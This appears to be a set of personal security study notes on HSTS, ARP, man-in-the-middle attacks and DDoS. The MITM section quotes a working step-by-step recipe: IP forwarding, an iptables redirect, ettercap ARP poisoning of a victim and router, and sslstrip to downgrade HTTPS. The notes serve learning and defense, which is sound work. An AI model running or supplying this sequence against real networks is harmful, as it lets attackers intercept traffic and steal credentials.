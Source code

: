 __HSTS header__
https://gist.github.com/bartekn/6924685

`Strict-Transport-Security: max-age=31536000`

> HTTP Strict Transport Security (HSTS) is an opt-in security enhancement that is specified by a web application through the use of a special response header. Once a supported browser receives this header that browser will prevent any communications from being sent over HTTP to the specified domain and will instead send all communications over HTTPS. It also prevents HTTPS click through prompts on browsers.

__MITM attacks__

> First I turned IP forwarding on so that my computer can act as a router and route traffic to other destinations: 
attacker@linux:/#: echo 1 > /proc/sys/net/ipv4/ip_forward 
I setup setup my firewall tables to NAT all incoming TCP traffic received over port 80 to be redirected out port 10000:
attacker@linux:/#: iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000 
Then, I used ettercap to perform ARP poisoning on the victim's router so that all traffic being sent to my victim will first be sent to me: 
attacker@linux:/#: ettercap -Tq -i eth0 -M arp:remote /victim's IP/ /router's IP/ 
I used the python program SSLstrip that Moxie Marlinspike created to make the HTTPS to HTTP substitutions and keep track of the changes make: 
attacker@linux:/#: python sslstrip.py -a

__ARP__

http://www.watchguard.com/infocenter/editorial/135324.asp

1. An ARP Request. Computer A asks the network, "Who has this IP address?"
2. An ARP Reply. Computer B tells Computer A, "I have that IP. My MAC address is [whatever it is]."
3. A Reverse ARP Request (RARP). Same concept as ARP Request, but Computer A asks, "Who has this MAC address?"
4. A RARP Reply. Computer B tells Computer A, "I have that MAC. My IP address is [whatever it is]"

ARP poisoning
* The hacker begins by sending a malicious ARP "reply" (for which there was no previous request) to your router. ( router thinks the hacker's computer is your computer)
* Next, the hacker sends a malicious ARP reply to your computer, associating his MAC Address with 192.168.0.1.  (your machine thinks the hacker's computer is your router)

Aircrack tool: 
* http://www.aircrack-ng.org/
* http://www.irongeek.com/i.php?page=videos/bsideslasvegas2013/2-2-6-the-slings-and-arrows-of-open-source-security-tod-beardsley-and-mister-x

### DDOS

__SYN Flooding__ - http://tools.ietf.org/html/rfc4987 
